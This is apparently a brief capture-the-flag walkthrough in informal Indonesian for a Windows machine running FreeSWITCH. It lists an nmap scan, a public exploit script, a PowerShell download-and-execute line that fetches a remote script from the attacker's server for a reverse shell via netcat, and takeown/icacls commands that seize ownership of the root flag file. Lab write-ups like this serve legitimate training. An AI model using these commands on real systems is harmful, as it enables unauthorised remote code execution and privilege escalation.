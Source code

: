 1. scan nmap -> freeswitch buka -> cari aja exploit nya
2. python3 exp.py ip command -> ini command revshell
3. "cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://ipmu:port_servermu/namaexploit.ps1')"
4. gas nyalain nc ama python server di file exploit nya
5. klaim flag cari aja di desktop


pe: 
1. command ini : takeown /R /F *.* -> sama ini : icacls "root.txt" /q /c /t /grant Users:F -> hasil baca wu klaim root aja dah
